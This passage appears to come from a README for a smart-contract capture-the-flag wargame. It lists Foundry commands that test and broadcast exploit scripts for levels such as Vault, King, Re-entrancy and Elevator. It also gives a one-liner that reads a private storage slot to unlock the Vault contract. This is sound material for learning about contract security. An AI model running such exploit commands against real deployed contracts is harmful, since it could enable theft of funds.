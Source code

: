 **Exploit on chain**
```sh
forge script VaultExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" <INSTANCE ADDRESS>
```

`cast` command-only one-liner:
```sh
cast send --private-key $PRIVATE_KEY <INSTANCE ADDRESS> "unlock(bytes32)" $(cast storage  <INSTANCE ADDRESS> 1)
```

## 9. King
**Test**
```sh
forge test --match-contract KingExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script KingExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" <INSTANCE ADDRESS>
```

## 10. Re-entrancy
**Test**
```sh
forge test --match-contract ReentranceExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script ReentranceExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" <INSTANCE ADDRESS>
```

## 11. Elevator
**Test**
```sh
forge test --match-contract ElevatorExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script ElevatorExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" <INSTANCE ADDRESS>
```

## 12. Privacy
**Test**
```sh
forge test --match-contract PrivacyExploitTest -vvvv
```
